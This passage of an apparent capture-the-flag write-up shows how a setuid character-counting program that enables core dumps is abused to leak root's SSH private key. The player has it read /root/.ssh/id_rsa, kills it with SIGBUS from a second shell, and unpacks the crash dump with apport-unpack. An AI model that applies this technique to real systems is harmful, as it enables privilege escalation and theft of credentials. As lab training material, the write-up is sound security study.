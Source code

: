 ```c

    // drop privs to limit file write
    setuid(getuid());
    // Enable coredump generation
    prctl(PR_SET_DUMPABLE, 1);
    printf("Save results a file? [y/N]: ");
    res = getchar();
    if (res == 121 || res == 89) {
        printf("Path: ");
        scanf("%99s", path);
        FILE *fp = fopen(path, "a");
        if (fp != NULL) {
            fputs(summary, fp);
            fclose(fp);
        } else {
            printf("Could not open %s for writing\n", path);
        }
    }

    return 0;
}
```
The code contains the line `prctl(PR_SET_DUMPABLE, 1);` which as a comment tells us enables coredump generation. The program is used to count characters, words and lines in a specific file. We can use this to count root's ssh key, crash the program which will then do a coredump. We should then be able to read the ssh key of root in the dump since it will be loaded and in the memory of the program. 

We open two shells since we need to be pretty fast in crashing the program. We start by running the program 

```console
dasith@secret:/opt$ ./count 
Enter source file/directory name: /root/.ssh/id_rsa

Total characters = 2602
Total words      = 45
Total lines      = 39
Save results a file? [y/N]: y
Path: Bus error (core dumped)
```
The contents of the other terminal:
```console
dasith@secret:~$ ps -aux | grep count
root         792  0.0  0.1 235664  7516 ?        Ssl  19:28   0:00 /usr/lib/accountsservice/accounts-daemon
root        1719  0.0  0.0   2488   592 pts/1    S+   20:19   0:00 ./count
dasith      1721  0.0  0.0   6432   736 pts/0    S+   20:20   0:00 grep --color=auto count
dasith@secret:~$ kill -BUS 1719
```
We actually didn't have to be that fast since it stopped the execution of the program so we could enter the path of the file we wanted to save our results in. In any case, we then go to `/var/crash` and unpack the coredump:
`apport-unpack _opt_count.1000.crash /tmp/crash`
